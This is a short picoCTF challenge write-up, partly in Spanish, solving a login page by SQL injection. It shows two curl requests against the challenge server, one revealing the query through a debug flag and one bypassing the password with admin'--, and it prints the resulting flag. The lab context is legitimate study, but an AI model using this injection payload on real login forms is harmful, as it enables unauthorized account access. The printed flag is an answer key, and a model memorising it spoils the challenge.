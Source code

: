 ## Objetivo 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Solución  
```bash
# SQLi detected.
---------------------------------------------------------

kali@KaliEND:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=Admin';&password=password&debu  
g=1"  
<pre>username: Admin';  
password: password  
SQL query: SELECT * FROM users WHERE name='Admin';' AND password='password'

kali@KaliEND:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin'--&password=password&ebu  
g=1"  
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>kali@KaliEND:~$

```
## Notas Adicionales 
el mismo sitio de personas irlandesas, pero ahora con una proteccion contra inyecciones sql.
lo que se hace para resolver este reto picoctf es ingresar en el campo de usuario:
`Admin';` pero no funciona, por lo cual tratamos con `admin'--` para que solamnte tome la secuencia sql hasta el apostrofo ' y solamente se inicie sesion como administrador sin tener que llenar correctamente el campo password.
### Referencias

